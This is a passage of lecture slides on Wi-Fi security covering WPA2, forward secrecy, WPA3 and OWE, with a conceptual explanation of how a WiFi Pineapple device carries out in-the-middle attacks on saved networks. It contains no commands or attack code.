characters (from the 95 available) can prevent brute-force attacks <!-- .slide: class="right-float-img-800 no-border" --> <h2 class="r-fit-text">Wi-Fi Protected Access 2 (WPA2) (2004)</h2> [](https://commons.wikimedia.org/wiki/File:4-way-handshake_WPA2.png) - Improvements over WPA: - Used a better cipher, AES, in something like CBC mode - Only 128-bit keys - Better handshake to establish the AES key - Somewhat like TLS - Still considered secure, 20 years later - Unless you use a poor password <!-- .slide: class="right-float-img-600 no-border" --> ## Forward secrecy [](https://commons.wikimedia.org/wiki/File:Das_Geheimnis_-_Le_secret.jpg) - If someone records your encrypted communication today... - And the *server* keys were revealed later - Meaning the WiFi key, or a server's private key - Would they be able to decrypt your (recorded) communication? - If not, then the algorithm is *forward secret* <h2 class="r-fit-text">Wi-Fi Protected Access 3 (WPA3) (2018)</h2> - Improvements over WPA2: - Requires 192-bit (AES) keys - Improved key generation handshake (like TLS) - Forward secret! - Supposedly will "mitigate security issues posed by weak passwords" ## OWE (Opportunistic Wireless Encryption) (2018) - Defined in [RFC 8110](https://www.rfc-editor.org/rfc/rfc8110) - Intended for open networks where anyone can connect - Provides encryption without the need for authentication - Uses DHE (Diffie-Hellman key Exchange) - As secure as WPA2 and WPA3 - Uses AES, with 256+ bit keys <h2 class='xkcd'>Security</h2> <img src="https://imgs.xkcd.com/comics/security.png" title="Actual actual reality: nobody cares about his secrets. (Also, I would be hard-pressed to find that wrench for $5.)" alt="Security" style="image-orientation:none" class='stretch'> <p class='center'><a href='http://xkcd.com/538/'>xkcd # 538</a></p> <!-- .slide: class="right-float-img-800 no-border" --> ## WiFi Pineapple  - Available [here](https://hak5.org/products/wifi-pineapple) for $120 from [hak5.org](https://hak5.org) - When your computer tries to connect to *saved* WiFi networks... - It broadcasts a "are you here" message for each saved network - This device always answers "yes" - And then answers "yes" to whatever password is provided <!-- .slide: class="right-float-img-800 no-border" --> ## WiFi Pineapple  - It's a MITM (in-the-middle) attack on WiFi - The network data is forwarded on through your computer's (real) network connection - Very effective at coffee shop WiFi hotspots - Has anybody here been victim of one? - How would you ever know?